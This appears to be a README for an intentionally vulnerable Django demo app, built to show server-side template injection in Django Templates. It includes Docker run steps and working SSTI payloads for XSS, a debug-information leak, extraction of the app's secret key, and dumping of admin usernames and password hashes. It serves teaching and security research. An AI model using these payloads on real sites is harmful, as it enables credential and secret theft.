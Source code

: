 # Django App Vulnerable to Django Templates SSTI

This simple Django app serves to show post-exploitation options when server-side template injection (SSTI) is present in app using Django Templates engine (not Jinja2 but might work there as well).

## Run
To run the project, working Docker installation is required. With this prerequisite the project can be executed as follows:
```
sudo docker build -t django .
sudo docker run --rm -p 127.0.0.1:8000:8000 django
```

Now the example application should be running and accepting SSTI payloads at: `http://localhost:8000/polls/?injection=`

## Example payloads
Cross-site scripting:
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

Debug information leak:
```
{% debug %}
```

Leaking app’s Secret Key (assumes CookieStorage being first message storage):
```
{{ messages.storages.0.signer.key }}
```

Admin Site URL leak:
```
{% include 'admin/base.html' %}
```

Admin username & password hash leak (assumes `admin_log` records exist):
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %} {{e.user.get_username}} : {{e.user.password}}{% endfor %}
```
